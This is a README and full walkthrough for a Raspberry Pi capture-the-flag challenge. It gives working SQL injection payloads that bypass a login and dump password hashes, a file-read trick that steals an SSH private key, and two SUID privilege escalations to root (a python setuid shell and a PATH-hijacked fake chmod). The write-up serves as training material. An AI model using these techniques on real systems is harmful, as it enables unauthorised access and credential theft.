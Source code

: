 # Raspberry Peist

The 'root path' for our BakeryTF - these challenges led to the rooting of the Raspberry Pi, which was the main prize for the weekend. The first to root got to take it home.

The root path was primarily designed by Mac and Nick. Mac wrote the front end parts of the challenge and the priv esc to user 2, Nick and Brooks designed the priv esc to root, and Brooks and Mac implemented the Docker setup for deploying the challenge.

## Overview

### CTF Management Console

<details>

<summary>Spoilers</summary>

The first part of the challenge involved finding the 'CTF Management Console', hosted on the Raspberry Pi. The IP address was hidden in a `robots.txt` file on the CTFd page.

Once into the management console, players could exploit a pair of simple SQL Injections; one to gain access to the admin panel, and another to extract user data from the table. This allowed them to crack the admin's password.

</details>

### Shell as intern

<details>

<summary>Spoilers</summary>

The password extracted from the UNION injection on the admin console could be cracked. This then allowed access to the Raspberry Pi over SSH as the intern user.

</details>

### Shell as master-baker

<details>

<summary>Spoilers</summary>

As `intern`, we can do some basic enumeration of the Linux system. `ps aux` reveals a webserver that is running locally. We can curl the webserver to find out that it's an application designed to read files on the local system. As it's running as `master-baker`, we can read their SSH key with a simple `curl` request and SSH in as them.

</details>

### Shell as root

<details>

<summary>Spoilers</summary>

As `master-baker` we have access to a file `.egg-cracker` that has a SUID bit - this means it can run as root. The file is an ELF that appears to run `chmod`. There are two paths here - we can use the file to give another file a sticky bit and make it writeable and executable, then run it to spawn a shell as `root`; or we can create a `chmod` binary on our path that spawns a shell, and trick the `.egg-cracker` file into running this instead. This was the solution used by SherlockSec to claim the grand prize!

</details>

## Running the Challenge

To run the challenge locally, simply use:

```bash
$ docker-compose up
```

This will copy across all the necessary files to the container and start the webserver.

## Accessing the Challenge

The output of `docker-compose up` should give you an IP address - visit this to start the challenge!

If you can't find the IP, running `ifconfig` should display a docker interface that will list the IP.

## Solution

<details>

<summary>Full Solution - Spoilers!</summary>

### CTF Management Page

First, users had to go to `/robots.txt` on the CTFd platform. If you are running this challenge locally after the CTF has ended, this step won't apply. The `robots.txt` file points to the `/ctf-management-page` URL, which has the IP of the Raspberry Pi hidden in the source.

Visiting the IP, we see a website that appears to be for managing the CTF. There is a login form which is vulnerable to a basic SQL Injection - we can supply `' OR 1=1;--` as our username, which causes the SQL query to select the first user from the database and log us in as the `admin` user.

Now we're authenticated in the admin panel, we can see a second page, `/admin/search`, which seems to let us search challenges that are part of the CTF. A message on the page also tells us that the SSH service is running on a non-standard port, `2222`, and that we should login as the `intern` user... once we have a password, of course.

As the login form was vulnerable to SQL Injection, we can try a similar attack on the search form. Search forms are often vulnerable to a `UNION` injection - a search form may run a query such as `SELECT id, title, description FROM challenges WHERE title LIKE '%{input}%';` - we can attempt to inject into the input field to make the query return data from another table, like so: `SELECT id, title, description FROM challenges WHERE title LIKE '%' UNION SELECT id, username, password FROM users;--%';`. To do so, we just submit `' UNION SELECT id, username, password FROM users;--` as our search term. This then appends a user entry to our results table, containing a password entry, `be49db543011ca91169903c1a3ca2c23`!

The password is hashed - we can try and crack it in [https://crackstation.net/](https://crackstation.net/) - it cracks almost instantly, outputting `chinchilla`.

### Shell as intern

Using the credentials we cracked, we can login as `intern`. We just need to specify the port as `2222` and supply the password, `chinchilla`:

```bash
$ ssh -p 2222 intern@139.162.206.87
The authenticity of host '[139.162.206.87]:2222 ([139.162.206.87]:2222)' can't be established.
ECDSA key fingerprint is SHA256:BlPIOuc0Uidgd2p4WKMbcrxKtW6hFyAx4FN09gJKSn4.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[139.162.206.87]:2222' (ECDSA) to the list of known hosts.
intern@139.162.206.87's password:
Last login: Mon May 17 17:54:37 2021 from 192.168.16.1
[intern@SESH-PI ~]$
```

We can also submit this password on CTFd for a flag and some points.

### Shell as master-baker

Now we're `intern` we can read the `user.txt` file to get the next flag:

```bash
[intern@SESH-PI ~]$ cat user.txt
sesh{w3lC0me_t0_ouR_SeRv3r!}
```

Running some basic enumeration on the filesystem, we can see there is a local webserver running on port `9999`:

```bash
[intern@SESH-PI ~]$ ss -lntp
State               Recv-Q              Send-Q                           Local Address:Port                             Peer Address:Port              Process
LISTEN              0                   4096                                 127.0.0.1:9999                                  0.0.0.0:*
LISTEN              0                   4096                                127.0.0.11:45045                                 0.0.0.0:*
LISTEN              0                   128                                    0.0.0.0:22                                    0.0.0.0:*
LISTEN              0                   128                                    0.0.0.0:5000                                  0.0.0.0:*
LISTEN              0                   128                                       [::]:22                                       [::]:*
```

(running a similar command, such as `ps aux`, would also tell us the owner of this process - it turns out to be the `master-baker` user, who we could also have discovered by reading the `/etc/passwd` file or similar)

```bash
[intern@SESH-PI ~]$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           8  0.0  0.1  14776  4792 ?        S    May17   0:00 su master-baker -c cd ~/ && php -S localhost:9999
root           9  0.0  0.1  14776  4540 ?        S    May17   0:00 su flask -c /home/flask/ctf-management/run.sh
master-+      10  0.0  0.5  74428 19704 ?        Ss   May17   0:01 php -S localhost:9999
```

Let's give it a `curl` to see what it does:

```bash
[intern@SESH-PI ~]$ curl http://localhost:9999
<h1>My File Reader</h1>

<a href="/get-file.php">Read My Files!</a>
```

So it looks like it can read a file - as it's owned by `master-baker`, we can likely use it to read their files. But what to read? We can try something that would allow us to escalate privileges... like an `id_rsa` file:

```bash
[intern@SESH-PI ~]$ curl http://localhost:9999/get-file.php?file=.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...[snip]...
tE0bB89AtxC3m1AAAACnRsbEBCSVRCT1g=
-----END OPENSSH PRIVATE KEY-----
```

We got lucky! The webserver was running out of `master-baker`'s home directory, so we could go straight to `.ssh` - if it wasn't, we would have to do some extra enumeration to try and figure out where we were, or just request the file with a full path (`/home/master-baker/.ssh/id_rsa`)

This SSH private key will let us SSH as `master-baker`. Let's copy the key to our local system, then SSH with the following command:

```bash
$ echo [KEY] > master_baker
$ chmod 600 master_baker
$ ssh -p 2222 -i master_baker master-baker@139.162.206.87
[master-baker@SESH-PI ~]$
```

### Shell as Root

Now we're `master-baker` we can have a poke around the file system and grab the user flag:

```bash
[master-baker@SESH-PI ~]$ ls -la
total 56
drwx------ 1 master-baker master-baker 4096 May 15 11:53 .
drwxr-xr-x 1 root         root         4096 May 15 11:53 ..
lrwxrwxrwx 1 master-baker master-baker    9 May 15 11:08 .bash_history -> /dev/null
-rw-r--r-- 1 master-baker master-baker   21 May 12 23:41 .bash_logout
-rw-r--r-- 1 master-baker master-baker   57 May 12 23:41 .bash_profile
-rw-r--r-- 1 master-baker master-baker  141 May 12 23:41 .bashrc
---------- 1 root         root          176 May 15 09:15 .egg
-rwsr-xr-x 1 root         root         9584 May 15 09:18 .egg-cracker
-rw-r--r-- 1 master-baker master-baker  141 May 15 11:53 get-file.php
-rw-r--r-- 1 master-baker master-baker   69 May 15 11:53 index.php
-rw-r--r-- 1 root         root           32 May 15 11:53 master.txt
drwxr-xr-x 1 master-baker master-baker 4096 May 15 11:08 .ssh
[master-baker@SESH-PI ~]$ cat master.txt
sesh{y0u_are_Th3_M45t£r_B4ker}
```

We see a file, `.egg-cracker` that has a SUID bit set (indicated by the `s` in the file permissions). We can see what this is:

```bash
[master-baker@SESH-PI ~]$ file .egg-cracker
.egg-cracker: setuid ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, for GNU/Linux 3.7.0, not stripped
```

Running it gives us a bit more information - we can see it's trying to run `chmod`:

```bash
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?: idk
chmod: invalid mode: ‘idk’
Try 'chmod --help' for more information.
```

We can also look at `.egg`:

```bash
Do not try and crack the egg, that's impossible. Instead, only try to realize
the truth...there is no egg. Then you will see it is not the egg that
cracks, it is the whole pi.
```

As it's owned by root, we can try to give this some useful permissions:

```bash
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?: u+s .egg
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?: 777 .egg
```

These are the new permissions:

```bash
-rwsrwxrwx 1 root         root            3 May 17 18:03 .egg
```

It's now writeable, executable, and crucially has a sticky bit - this means when we execute it, it executes as root!

So we can edit its contents... But to do what? We can't use a plain `/bin/bash`, as bash is [designed for security reasons to drop its privileges](https://focus-linux.securityfocus.narkive.com/L4uQ5nDr/no-root-shell-with-suid-bin-bash) if run with suid (but we can try and see what happens):

```bash
[master-baker@SESH-PI ~]$ cat /bin/bash > .egg
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?: u+s .egg
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?: 777 .egg
[master-baker@SESH-PI ~]$ ./.egg
[master-baker@SESH-PI ~]$ exit
exit
[master-baker@SESH-PI ~]$
```

Instead, we can do a trickier thing, and spawn a shell with python:

```bash
[master-baker@SESH-PI ~]$ cp /usr/bin/python .egg
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?: u+s .egg
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?: +x .egg
[master-baker@SESH-PI ~]$ ./.egg
Python 3.9.5 (default, May 12 2021, 20:31:15)
[GCC 10.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> import pty
>>> pty.spawn("/bin/bash")
[root@SESH-PI ~]# cat /root/root.txt
sesh{congr4tuLations_you_W1n_A_RasPB3RRY_P1!}
```

This replaces `.egg` with the python process, lets it run as root, and then uses python to spawn a shell - neat.

#### Alternative Solution

Here's what SherlockSec did to root the Pi:

```bash
[master-baker@SESH-PI ~]$ ls -la
total 60
drwx------ 1 master-baker master-baker 4096 May 15 11:53 .
drwxr-xr-x 1 root         root         4096 May 15 11:53 ..
lrwxrwxrwx 1 master-baker master-baker    9 May 15 11:08 .bash_history -> /dev/null
-rw-r--r-- 1 master-baker master-baker   21 May 12 23:41 .bash_logout
-rw-r--r-- 1 master-baker master-baker   57 May 12 23:41 .bash_profile
-rw-r--r-- 1 master-baker master-baker  141 May 12 23:41 .bashrc
-r-xr-xr-x 1 root         root          176 May 15 09:15 .egg
-rwsr-xr-x 1 root         root         9584 May 15 09:18 .egg-cracker
-rw-r--r-- 1 master-baker master-baker  141 May 15 11:53 get-file.php
-rw-r--r-- 1 master-baker master-baker   69 May 15 11:53 index.php
-rw-r--r-- 1 root         root           32 May 15 11:53 master.txt
drwxr-xr-x 1 master-baker master-baker 4096 May 15 11:08 .ssh
[master-baker@SESH-PI ~]$ file .egg
.egg: ASCII text
[master-baker@SESH-PI ~]$ cat .egg
Do not try and crack the egg, that's impossible. Instead, only try to realize
the truth...there is no egg. Then you will see it is not the egg that
cracks, it is the whole pi.
[master-baker@SESH-PI ~]$ file .egg-cracker
.egg-cracker: setuid ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, for GNU/Linux 3.7.0, not stripped
[master-baker@SESH-PI ~]$ strings .egg-cracker
-bash: strings: command not found
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?:
chmod: missing operand
Try 'chmod --help' for more information.
sh: line 2: .egg: command not found
[master-baker@SESH-PI ~]$ $PATH
-bash: /usr/local/sbin:/usr/local/bin:/usr/bin: No such file or directory
[master-baker@SESH-PI ~]$ cd /tmp
[master-baker@SESH-PI tmp]$ echo "/bin/bash" > chmod
[master-baker@SESH-PI tmp]$ chmod 777 chmod
[master-baker@SESH-PI tmp]$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/bin
[master-baker@SESH-PI tmp]$ export PATH=/tmp:$PATH
[master-baker@SESH-PI tmp]$ cd ~
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?:
[root@SESH-PI ~]# cd /root
[root@SESH-PI root]# ls
root.txt
[root@SESH-PI root]# cat root.txt
sesh{congr4tuLations_you_W1n_A_RasPB3RRY_P1!}
```

This solution makes use of the fact that the `.egg-cracker` file is running `chmod` - by writing their own `chmod` executable and placing it first on the path, running `.egg-cracker` runs the malicious `chmod` instead of the standard one (and does so as root, due to its suid bit). This was a path we hadn't thought of, and just shows off the many dangers of SUID, so congrats to SherlockSec!

</details>